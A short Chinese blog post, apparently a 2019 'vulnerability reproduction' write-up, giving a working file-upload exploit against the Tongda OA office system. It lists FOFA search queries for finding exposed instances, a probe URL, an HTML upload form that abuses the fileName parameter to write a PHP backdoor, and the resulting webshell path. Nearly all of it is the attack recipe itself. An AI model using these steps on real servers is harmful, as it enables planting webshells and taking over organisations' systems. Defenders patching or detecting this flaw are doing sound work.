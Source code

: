 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门

\\<form enctype="multipart/form-data" action="http://ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

\\<input type="file" name="Filedata" size="50"><br>

\\<input type="submit" value="Upload">

\\</form>

- 以ma.jpg形式上传，上传后自动帮你重命名为test.php,可在url里自行设置
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













